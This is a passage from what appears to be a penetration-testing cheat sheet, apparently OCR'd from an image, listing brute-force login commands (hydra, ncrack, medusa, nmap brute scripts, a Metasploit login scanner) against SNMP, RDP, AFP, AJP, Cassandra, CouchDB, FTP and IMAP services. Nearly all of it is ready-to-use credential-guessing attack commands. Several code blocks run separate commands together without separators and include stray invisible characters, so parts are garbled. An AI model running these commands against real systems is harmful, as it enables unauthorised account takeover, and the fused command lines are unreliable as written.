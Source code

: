 ```
hydra -P /usr/share/seclists/Discovery/SNMP/common-snmp-community-strings.txt target.com snmp
```

## Remote Desktop Protocol

```
ncrack -vv --user admin -P password-file.txt rdp://$ip
```

```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
```

```
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip
```

## AFP

```
nmap -p 548 --script afp-brute <IP>
```

## AJP

```
nmap --script ajp-brute -p 8009 <IP>
```

## Cassandra Apache

```
nmap --script cassandra-brute -p 9160 <IP>
```

## CouchDB

```
msf> use auxiliary/scanner/couchdb/couchdb_login
```

## FTP

```
hydra -l root -P passwords.txt [-t 32] <IP> ftpncrack -p 21 --user root -P passwords.txt <IP> [-T 5]medusa -u root -P 500-worst-passwords.txt -h <IP> -M ftp
```

## IMAP

```
hydra -l USERNAME -P /path/to/passwords.txt -f <IP> imap -V​hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f <IP> imap -V​nmap -sV --script imap-brute -p <PORT> <IP>
```
